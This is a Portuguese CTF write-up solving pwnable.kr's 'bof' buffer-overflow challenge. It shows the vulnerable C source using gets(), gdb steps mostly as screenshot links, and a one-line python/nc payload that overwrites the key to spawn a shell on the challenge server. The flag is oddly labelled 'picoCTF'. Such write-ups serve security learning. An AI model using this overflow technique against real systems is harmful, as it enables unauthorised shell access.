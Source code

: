 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

```c++
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

permissão de execução
```
chmod +x bof
```
rodar o arquivo
```
./bof
```

usando o `gdb bof`

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

(gdb) disas <função_analisada>

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

![image](https://github.com/user-attachments/assets/1926e179-6b1c-4d30-a5fc-a9723f19c80e)

![image](https://github.com/user-attachments/assets/9d3cae56-ecc2-4d68-85c2-8a233478812a)

![image](https://github.com/user-attachments/assets/a716027a-427e-40d0-8bce-e9cd8f6a82d2)


![image](https://github.com/user-attachments/assets/1f67f213-4ef6-46db-8cbf-85da81d03e7a)


```(python -c "print '\x41'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

cat flag

> Assim, obtemos a flag `picoCTF{daddy, I just pwned a buFFer :)}`  

